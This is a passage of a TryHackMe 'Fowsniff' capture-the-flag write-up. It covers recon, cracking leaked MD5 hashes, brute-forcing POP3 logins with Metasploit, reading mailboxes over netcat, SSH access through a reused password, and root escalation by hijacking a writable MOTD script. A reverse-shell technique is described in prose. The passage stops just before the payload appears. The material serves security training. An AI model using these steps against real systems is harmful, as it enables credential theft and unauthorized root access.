# TryHackMe: Fowsniff CTF

    



## Room Info

| Field | Value |
|---|---|
| **Room** | Fowsniff CTF |
| **Platform** | TryHackMe (originally a VulnHub box by berzerk0) |
| **Difficulty** | Easy — beginner-friendly |
| **Category** | Boot2root / Misc |
| **OS** | Linux (Ubuntu) |
| **Tools Used** | nmap, a web browser, GitHub search, CrackStation, Metasploit (`pop3_login`), netcat/manual POP3, ssh, nano |
| **Skills Tested** | OSINT/Google-fu, MD5 hash cracking, POP3 protocol brute forcing, manual POP3 mailbox reading, credential reuse across services, Linux group permissions, MOTD-script privilege escalation |

**Premise:** Fowsniff Corp suffered a real-looking data breach — employee credentials leaked publicly. The whole room is built around actually *using* that leak the way a real attacker would: find the dump, crack the hashes, brute-force a login with the recovered material, then follow the trail through email into an SSH foothold and finally a root-owned script that gets abused for privilege escalation.

---

## Concept Glossary

Read this section first — every technique used below is explained here before it shows up in the walkthrough.

**Why check the web port before anything else on port 80** — A default Apache page (or a company splash page, like here) often contains context clues — company names, breach announcements, employee hints — that shape the *entire* rest of an engagement. This room is a direct lesson in that: the website itself openly tells you a breach happened, which is the reason to go looking for a public leak next instead of jumping straight into brute-forcing blind.

**Why an old data breach becomes an attacker's wordlist** — When a company's credentials leak online (Pastebin, GitHub mirrors, breach forums), that dump doesn't stop being useful once it's "old news" — reused passwords, similar patterns, and valid usernames from a leak are exactly the kind of targeted wordlist that beats generic dictionaries, because it's tailored to *this specific organization's* people.

**MD5 hash cracking** — MD5 is a fast, unsalted hashing algorithm, which made it a common (bad) choice for storing passwords for years. Because it's fast to compute, and because unsalted hashes of common passwords produce the *same* hash every time regardless of whose password it is, huge precomputed lookup databases (rainbow tables / hash-cracking sites like CrackStation) can instantly reverse an MD5 hash back to its original plaintext *if* that plaintext is common or has been seen before — no real "cracking computation" happens per attempt, it's a lookup.

**POP3 (`Post Office Protocol v3`)** — An old, simple, plaintext email retrieval protocol (default port 110). Commands are sent as plain readable text: `USER <name>`, `PASS <password>`, `LIST` (show messages), `RETR <n>` (retrieve message n). Because it's plaintext and stateless per-login, it's a natural target for credential brute forcing — and once you have valid creds, you can literally read someone's mailbox by hand over a raw `nc` connection, no email client required.

**Metasploit's `pop3_login` auxiliary module** — Rather than hand-writing a brute-force script, Metasploit ships a purpose-built scanner for exactly this: feed it a list of usernames and a list of passwords (or paired username:password combos via `USERPASS_FILE`), point it at a POP3 server, and it will try every combination and report back which ones succeed. This matters especially when the leaked dump gives you a *matched* set of usernames and cracked passwords rather than two independent lists — using `USERPASS_FILE` (paired) instead of separate `USER_FILE`/`PASS_FILE` (all-combinations) avoids wasting time trying every username against every password when you already know which password belongs to which account.

**Credential reuse across services (POP3 → SSH)** — A recurring, very real-world theme: the same person's password (or a password revealed *through* one service, like an email containing someone else's temporary password) often works elsewhere too. Here, reading a mailbox over POP3 doesn't just get you a flag — it gets you a name and a *different* password, discovered by reading a colleague's email, that turns out to be valid for an entirely different service (SSH).

**Linux group permissions and `find ... -group`** — Every Linux user belongs to one or more groups, and files can grant execute/read/write permissions to "the group" separately from "the owner" and "everyone else." Running `find / -type f -group <groupname> -perm -g+x` searches the whole filesystem for files that are (a) owned by a specific group and (b) executable *by that group* — a fast way to discover what a freshly-landed low-privilege account is actually allowed to run beyond the obvious.

**MOTD (`Message of the Day`) scripts and how they escalate privilege** — Ubuntu (and most Debian-based distros) run every executable script in `/etc/update-motd.d/` automatically, **as root**, every time a user opens an interactive SSH session — that's how the "Welcome to Ubuntu ..." banner gets built dynamically. If any of those numbered scripts (`00-header`, `10-help-text`, etc.) calls out to another script — like `sh /opt/cube/cube.sh` — then *that* called script also runs as root, even though the file itself might be owned by, or writable/executable by, a completely unprivileged group. This is the exact mechanism this room exploits: a low-privilege user can't directly become root, but if they can edit a script that gets *called* by the MOTD chain, their code runs with root's privileges the next time anyone logs in over SSH.

**Reverse shell via `os.dup2()`** — The Python one-liner used here (`socket.socket(...)`, `s.connect(...)`, then three `os.dup2(s.fileno(), N)` calls) opens a raw TCP connection back to a listener and then redirects file descriptors 0, 1, and 2 (stdin, stdout, stderr) onto that socket, before finally spawning `/bin/sh`. The effect: the shell's input and output are now the network connection instead of the local terminal, so anything typed on the listener side gets executed on the target, and the output comes back over the wire — a fully interactive shell, remotely.

---

## 1. Recon

### 1.1 Nmap scan

**Command:**
```bash
nmap -sV -O 10.129.129.80
```

**Output:**
```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3    Dovecot pop3d
143/tcp open  imap    Dovecot imapd
```


**Why this step, and why these four ports matter together:** SSH and HTTP are the usual suspects, but **POP3 and IMAP being open is the real signal here** — this is a mail-focused box, and that immediately reframes the whole approach: instead of hunting for a web app vulnerability, the plan becomes "find valid mail credentials, then read what's in the mailboxes."

### 1.2 Checking the website

**URL:** `http://10.129.129.80`

**Page content:**
> *"Fowsniff's internal system suffered a data breach that resulted in the exposure of employee usernames and passwords. Client information was not affected. Due to the strong possibility that employee information has been made publicly available, all employees have been instructed to change their passwords immediately. The attackers were also able to hijack our official @fowsniffcorp Twitter account..."*



**Why this changes the whole plan:** the site is doing the recon *for* you — it directly confirms a public credential leak exists and even names the compromised Twitter handle (`@fowsniffcorp`), which is the natural next thing to search for.

---

## 2. OSINT — Finding the Public Leak

**Search:** searching around the breach notice and the Twitter handle leads to a **GitHub mirror of the original leaked Pastebin** (Pastebins get taken down; GitHub copies tend to survive).

**Found:** `github.com/berzerk0/Fowsniff/blob/main/fowsniff.txt` — an ASCII-art "FOWSNIFF CORP PASSWORD LEAK" document containing a list of employee email addresses paired with MD5 password hashes.



**Why GitHub, not just the original Pastebin link:** Pastebin posts get deleted or rate-limited constantly, but once something is leaked, copies tend to get mirrored and preserved elsewhere — GitHub is a common landing spot. This is a good general OSINT habit: if a "the leak is right here" link is dead or gone, search for the distinctive text/title from the breach notice itself rather than giving up.

---

## 3. Cracking the Leaked Hashes

**Tool:** CrackStation (a free MD5/hash lookup database), targeting the list of hashes pulled from the leak.



**Why MD5 specifically was crackable here:** as covered in the Concept Glossary, MD5 is fast and unsalted — exactly the conditions that make lookup-database cracking effective, especially against passwords that aren't unique or complex. Whatever came back from this step (plus any hashes resolved via `hashkiller.io`, per the room's own suggestion) became the material for two files — a username list and a matching password list — used to drive the brute force in the next stage.

---

## 4. Brute Forcing POP3 with Metasploit

### 4.1 Locating and inspecting the module

**Commands:**
```bash
msfconsole
search pop3
use auxiliary/scanner/pop3/pop3_login
info
```



**Why this module specifically:** rather than hand-scripting a POP3 brute forcer, Metasploit's `auxiliary/scanner/pop3/pop3_login` already handles the protocol handshake, credential iteration, and success detection — exactly the primitive needed after Section 3 produced candidate usernames and passwords.

### 4.2 Building the wordlists from the cracked leak

**Commands:**
```bash
nano users.txt
nano pass.txt
ls
```
```
passwords.txt  users.txt
```


**Why build these by hand instead of using a generic wordlist:** this is the whole point of Section 3 — a wordlist made from *this company's actual leaked, cracked credentials* is far more targeted than rockyou.txt, and it's exactly what a real attacker would build after finding a breach dump.

### 4.3 First attempt — separate USER_FILE / PASS_FILE

**Commands:**
```bash
set USER_FILE /home/aymwvn/thm/Fowsniff_CTF/users.txt
set PASS_FILE /home/aymwvn/thm/Fowsniff_CTF/passwords.txt
unset USERPASS_FILE
set RHOSTS 10.129.129.80
set RPORT 110
set STOP_ON_SUCCESS false
```


**Why this is a rougher approach:** `USER_FILE` + `PASS_FILE` tries **every username against every password** — combinatorial, and wasteful when the leak actually gave *paired* username:password combinations rather than two independent lists.

### 4.4 Better approach — paired USERPASS_FILE

**Commands:**
```bash
set USERPASS_FILE /home/aymwvn/thm/Fowsniff_CTF/fowsniff_creds.txt
unset USER_FILE
unset PASS_FILE
show options
```


**Why the switch:** since the leak gave matched pairs (a specific hash next to a specific email), preserving that pairing in a single `user:pass` per-line file is both faster and more accurate than the brute-combination approach from 4.3 — this is the difference between "credential stuffing with known pairs" and "a blind dictionary attack," and recognizing which one the available data supports is a real methodology decision, not just a syntax choice.

### 4.5 Running it

**Command:**
```bash
run
```

**Output:**
```
[+] 10.129.129.80:110 - 10.129.129.80:110 - Success: 'seina:scoobydoo2' '+OK Logged in.'
[!] No active DB -- Credential data will not be saved!
[*] 10.129.129.80:110 - Scanned 1 of 1 hosts (100% complete)
```


**Q: What was seina's password to the email service?**
**A: `scoobydoo2`**

---

## 5. Manually Reading the Mailbox over POP3

Rather than staying inside Metasploit, the mailbox itself was read directly over a raw POP3 session — good practice, since POP3 is plaintext and doesn't require any special client.

### 5.1 Logging in and listing messages

**Commands:**
```bash
nc 10.129.129.80 110
USER seina
PASS scoobydoo2
LIST
RETR 1
```

**Output (message 1):**
```
+OK Welcome to the Fowsniff Corporate Mail Server!
+OK Logged in.
+OK 2 messages:
1 1622
2 1280
```
```
From: stone@fowsniff
Subject: URGENT! Security EVENT!

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.
```


**Why this email matters beyond flavor text:** it's an in-universe confirmation of *how* the original breach happened (SQL injection via improperly filtered input against a legacy auth system) — and it also leaks the full list of company usernames in its `To:` header (`baksteen, mauer, mursten, mustikka, parede, sciana, seina, tegel`), which is useful context even though the actual foothold path goes through message 2 instead.

### 5.2 Reading the second message — the temp password

**Commands:**
```bash
RETR 2
```

**Output (message 2):**
```
Return-Path: <baksteen@fowsniff>
To: seina@fowsniff
Subject: You missed out!
From: baksteen@fowsniff

Devin,

You should have seen the brass lay into AJ today!
We are going to be talking about this one for a looooong time hahaha.
Who knew the regional manager had been in the navy? She was swearing like a sailor!

I don't know what kind of pneumonia or something you brought back with
you from your camping trip, but I think I'm coming down with it myself.
How long have you been gone - a week?
Next time you're going to get sick and miss the managerial blowout of the century,
at least keep it to yourself!
```


**Q: In the email, who sent it?**
**A: `baksteen`** — confirmed both by the `Return-Path`/`From` header and by the SSH login that follows in the next section.

**Q: What was a temporary password set for her?**
**A: Not captured** — the password text itself falls outside what's visible in this screenshot (the message continues past what was captured). What matters for the writeup is that it *was* found in this email and used successfully in the next step.

---

## 6. SSH Foothold

**Command:**
```bash
ssh baksteen@10.129.129.80
```

**Result:**
```
**** Welcome to the Fowsniff Corporate Server! ****

NOTICE:
* Due to the recent security breach, we are running on a very minimal system.
* Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.

Last login: Tue Mar 13 16:55:40 2018 from 192.168.7.36
baksteen@fowsniff:~$
```


**Why this worked:** the temporary password recovered from message 2 — sent by `baksteen` — turned out to be reused as `baksteen`'s actual SSH password. This is the credential-reuse pattern described in the Concept Glossary: reading one person's mailbox (`seina`) leaked a *different* person's (`baksteen`'s) working password, entirely by accident from the company's own internal communications.

---

## 7. Privilege Escalation — MOTD Script Hijack

### 7.1 Enumerating group permissions

**Commands:**
```bash
id
find / -type f -group users -perm -g+x 2>/dev/null
```

**Output:**
```
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
/opt/cube/cube.sh
```


**Why this specific find command:** `baksteen` belongs to the `users` group (in addition to their own personal group). Searching for files that are both owned by that group *and* executable by it is a direct, deliberate way of asking "what am I actually allowed to run here that isn't obvious from just poking around home directories?" — and it immediately surfaces `/opt/cube/cube.sh`.

### 7.2 Running the file to see what it does

**Command:**
```bash
/opt/cube/cube.sh
```

**Output:** an ASCII-art cube logo with the text "Delivering Solutions."


**Why this looked unremarkable at first:** on its own, this script just prints a decorative logo — nothing privileged or interesting. The real question is *what calls this script, and with what privileges* — which is exactly what gets investigated next.

### 7.3 Finding what triggers cube.sh automatically

**Commands:**
```bash
cd /etc/update-motd.d
ls
cat 00-header
```

**Output (relevant tail of `00-header`):**
```
sh /opt/cube/cube.sh
```


**Why this is the actual vulnerability:** as covered in the Concept Glossary, every script in `/etc/update-motd.d/` runs automatically **as root** whenever anyone opens an SSH session — that's precisely why the "Delivering Solutions" cube banner appeared automatically the moment the SSH connection landed back in Section 6. `00-header` calling `sh /opt/cube/cube.sh` means **cube.sh runs as root too**, even though `baksteen` (an unprivileged user) has write access to it through group membership. That mismatch — root executes it, but a low-privilege group can edit it — is the entire privilege escalation.

### 7.4 Weaponizing cube.sh with a reverse shell

**Payload appended to the script:**
```bash
